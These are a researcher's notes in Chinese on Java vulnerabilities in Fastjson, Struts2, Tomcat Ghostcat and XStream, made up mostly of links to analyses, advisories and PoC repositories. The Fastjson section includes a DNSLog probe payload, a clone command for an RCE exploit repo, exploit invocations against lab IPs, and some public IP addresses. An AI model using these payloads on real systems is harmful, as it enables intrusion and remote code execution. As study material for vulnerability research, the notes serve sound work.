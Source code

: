 # java 漏洞

## Fastjson

<!-- 
sec\udesk.sec.java.md
fastjson.20200325.md
-->

[Fastjson < 1.2.68版本反序列化漏洞分析篇](https://www.anquanke.com/post/id/219731)

[Fastjson68版本绕过autotype原理及利用场景分析](https://www.freebuf.com/vuls/240392.html)

[Fastjson <1.2.48 入门调试](https://www.anquanke.com/post/id/209915)

[Fastjson 1.2.24反序列化漏洞深度分析](https://www.anquanke.com/post/id/211035)

[Fastjson1.2.24漏洞复现详细过程](https://www.freebuf.com/articles/web/242712.html)

[不安全的序列化](https://www.freebuf.com/articles/web/244476.html)

[Fastjson批量检查及一键利用工具](https://www.freebuf.com/sectool/244113.html)

[fastjson<=1.2.62远程代码执行漏洞通告](https://www.anquanke.com/post/id/199527)

[CVE-2020-8840: FasterXML/jackson-databind 远程代码执行漏洞通告](https://www.anquanke.com/post/id/199519)

访问地址: 118.193.36.37:43170

{ "zeo": {"@type":"java.net.Inet4Address","val":"m9ng8n.dnslog.cn"]]
https://github.com/mrknow001/fastjson_rec_exploit
git clone git@github.com:mrknow001/fastjson_rec_exploit.git
118.89.54.172
python3 fastjson.py -u http://192.168.1.3/ -s 192.168.1.1 -c "touch /tmp/test.txt
python fastjson_rce_exploit.py -u http://192.168.56.107:8090/ -s 192.168.56.1 -c "touch /tmp/test.txt"

https://github.com/mrknow001/fastjson_rec_exploit/archive/master.zip

[vulhub](https://vulhub.org/)

[基础篇-XSS盲打](https://cloud.tencent.com/developer/article/1078996)


## Struts2

+ [x] Struts2 真的落后了吗? 是 https://github.com/apache/struts/releases 基本不更新了
+ [ ] 现在流行的又是什么? Spring+SpringMVC+Mybatis

Struts2-059 远程代码执行漏洞（CVE-2019-0230）分析
https://www.anquanke.com/post/id/216629

Struts 2.3.24
https://archive.apache.org/dist/struts/2.3.24/struts-2.3.24-all.zip

TODO: idea创建 struts2项目: 应该需要升级idea
Failed to download 'http://central.maven.org/maven2/org/apache/struts/struts2-core/2.5.14.1/struts2-core-2.5.14.1.jar'
central.maven.org 这个域名已经没有了

        <url>https://repo1.maven.org/maven2</url>
https://stackoverflow.com/questions/62075914/intellij-create-sample-struts-web-project-with-java-then-show-this-error
because: "Beginning January 15, 2020, The Central Repository will no longer support communication over HTTP" (https://blog.sonatype.com/central-repository-moving-to-https)

Struts2入门这一篇就够了
https://juejin.im/post/6844903573545811982

## fastjson

[Fastjson历史漏洞研究（一）](https://www.anquanke.com/post/id/215753)

[FastJson历史漏洞研究（二）](https://www.anquanke.com/post/id/218268)

## Tomcat

### tomcat ghostcat Tomcat-Ajp

AJP Connector，它使用的是 AJP 协议（Apache Jserv Protocol）是定向包协议。
因为性能原因，使用二进制格式来传输可读性文本，它能降低 HTTP 请求的处理成本，因此主要在需要集群、反向代理的场景被使用。

https://github.com/hypn0s/AJPy

[POC](https://github.com/0nise/CVE-2020-1938)

[tenable Nessus: CVE-2020-1938: Ghostcat](https://zh-cn.tenable.com/blog/cve-2020-1938-ghostcat-apache-tomcat-ajp-file-readinclusion-vulnerability-cnvd-2020-10487?tns_redirect=true)

[Apache Tomcat - AJP 'Ghostcat File Read/Inclusion](https://www.exploit-db.com/exploits/48143)

xray 长亭科技 tomcat ghostcat 扫描
https://www.chaitin.cn/zh/ghostcat

CVE-2020-1938：Apache Tomcat服务器任意文件读取/包含漏洞通告
https://www.anquanke.com/post/id/199351

CVE-2020-1938 : Tomcat-Ajp 协议漏洞分析
https://www.anquanke.com/post/id/199448

CVE-2020-1938：Apache Tomcat服务器任意文件读取/包含漏洞通告
https://www.anquanke.com/post/id/199351

CVE-2020-1938 : Tomcat-Ajp 协议漏洞分析
https://www.anquanke.com/post/id/199448

[Google Search XSS漏洞分析](https://www.anquanke.com/post/id/213422)
sanitize

### xstream
XStream反序列化CVE-2020-26217漏洞分析
https://www.anquanke.com/post/id/222830